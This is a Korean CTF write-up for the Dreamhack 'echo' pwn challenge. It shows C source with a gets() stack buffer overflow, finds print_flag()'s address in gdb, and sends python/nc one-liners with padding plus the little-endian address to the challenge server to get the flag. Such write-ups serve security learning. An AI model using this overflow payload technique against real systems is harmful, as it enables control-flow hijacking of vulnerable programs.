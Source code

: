 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack #Pwn echo Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/a3541a39-e399-490b-bda6-52f74e619a2f)

먼저 문제를 읽어보면 서버가 입력받은 내용을 그대로 되돌려주는 에코 서버에 대한 것 같다. 

이어서 ```echo.c```코드를 살펴보면

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void print_flag() {
    puts(getenv("FLAG"));
    puts("^^ Flag!!111!!!! ^^");
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    puts(echo_buffer);
}

int main(void) {
    puts("ECHO! Echo! echo!");
    do_echo();
    return 0;
}
```

```do_echo()``` 함수에서 ```gets()``` 함수가 ```echo_buffer``` 배열에 사용자 입력을 받아 저장하고, ```puts()```로 다시 출력하는 단순한 에코 기능이 구현되어 있다. 

그리고 가장 눈에 띄는 부분은 ```gets()``` 함수인데 ```gets()``` 함수는 버퍼 오버플로우 공격에 취약하다.

```gets()```는 입력된 데이터가 ```echo_buffer```의 크기(256바이트)를 초과하더라도 제한 없이 메모리에 계속 저장하므로, 이 버퍼 오버플로우를 이용해 ```print_flag()``` 함수를 실행할 수 있을 것 같다.

버퍼 오버플로우 공격을 수행하기 위해서는 ```print_flag()```함수의 주소가 필요하니 디버거(gdb)를 사용해서 ```print_flag()```함수의 주소를 찾아보았다.

![image](https://github.com/user-attachments/assets/d505ee95-7578-41cb-b4fc-b1f2c34b8acd)

이때 x86-64 시스템은 리틀 엔디안 형식을 사용하므로 찾은 ```print_flag()```의 주소 ```0x401176```를 입력할 때는 바이트 순서를 반대로 적어야 한다. 즉, ```\x76\x11\x40\x00```로 사용해야 한다.

본격적으로 버퍼 오버플로우 공격을 시도해 보자

아래 코드 처럼 ```echo_buffer```의 크기(256바이트)를 채운 후 ```return address```에 ```print_flag()```의 주소를 넣으면 된다.

```python
python3 -c 'print("A" * 256 + "\x76\x11\x40\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/e34ec419-aeb2-42f2-a150-1bf44f57827e)

그러나 flag 값이 나오지 않는다.

뭐가 문제인지 잘 모르겠어서 구글링을 해보니 패딩을 늘려가면서 ```return address```에 도달하는 확인해 볼수 있다고 한다. 

그래서 패딩을 256바이트로 늘려 시도해보았다.

```
python -c 'print("A" * 264 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/b2eb91e7-a9ba-4d90-ae74-d1931407d5e2)

flag를 찾았다!!!!!

flag{curs3d_are_y0ur_eyes_for_they_see_the_fl4g}
